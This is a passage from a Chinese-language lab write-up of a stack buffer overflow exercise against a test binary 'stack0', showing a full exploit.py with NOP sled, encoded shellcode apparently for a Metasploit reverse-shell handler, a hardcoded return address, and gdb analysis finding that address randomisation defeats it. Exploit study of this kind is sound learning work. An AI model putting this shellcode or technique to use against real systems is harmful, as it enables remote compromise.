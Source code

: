 由此看出shellcode在内存的地址应该写成0xffd26180,也即jmp_esp="\x80\x61\xd2\xff",并将"bbbb"换成"\x90"*9,修改exploit.py如下：

```
--------------------exploit.py-------------------
#/usr/bin/python
import os
import sys

buf =  "\x90"*9
buf += "\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\x53\xdd\xa7\x9c\xa2\x89\xbe"
buf += "\x05\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\x39\xf4\xff\x05\xc8\x8b\xe1\x6f\x52\x83\xa8\x99\xea"
buf += "\x1e\xec\xc2\x57\xf9\xa5\x9c\xaa\x27\xf6\x8c\xb5\xb7"
buf += "\xb7\xc6\xc8\xb8\xe6\x0a\x56\x84\xcd\xae\xfa\x86\xbb"
buf += "\x4d\xc5\xb7\x8c\xc4\xad\x8c\xee\x53\x0c\xb7\xae\xc4"
buf += "\x3b\x3f\xae\x4d\xda\x0b\xea\xad\x6b\xe3\x9c\x44\x09"
buf += "\x6f\xa0\x93\xa7\xc1\x28\x4d\xc4\x82\xa8\x99\x5d\x6f"
buf += "\xbe\x05"

jmp_esp="\x80\x61\xd2\xff"
#print jmp_esp
input="a"*80+jmp_esp+buf
print input
os.system("echo '%s' | ./stack0" % input)
----------------------end------------------------

```

重新运行：

```
python exploit.py
----------------output:-------------------
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�a���������H1����H���H�Sݧ����H1X'H-����9ȋR���W����'������
                                 V�ͮ���Mŷ�ĭ�
                                           ��?�M        o����(MĂ��]o�
you have changed the 'modified' variable
Segmentation fault (core dumped)
------------------end---------------------

```

本机用相同的payload+multi/handler执行exploit无法获得shell

分析core

```
gdb -q -c core
-----------------output:--------------------
[New LWP 24746]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0xffd26180 in ?? ()
-------------------end----------------------

x/10x $esp
----------output:-------------
0xffa14160:     0x90909090      0x90909090      0xc9314890      0xf6e98148
0xffa14170:     0x48ffffff      0xffef058d      0xbb48ffff      0x9ca7dd53
0xffa14180:     0x05be89a2      0x48583148
-------------end--------------

```

从中发现这时shellcode的内存地址又变成了0xffa14160(上面[esp]后紧接的9个90证明了这点),不再是0xffd26180,可以看出kali的内存中没有固定的shellcode地址,每次shellcode地址都会变化，这应该是由于kali的内核版本高，安全性好造成的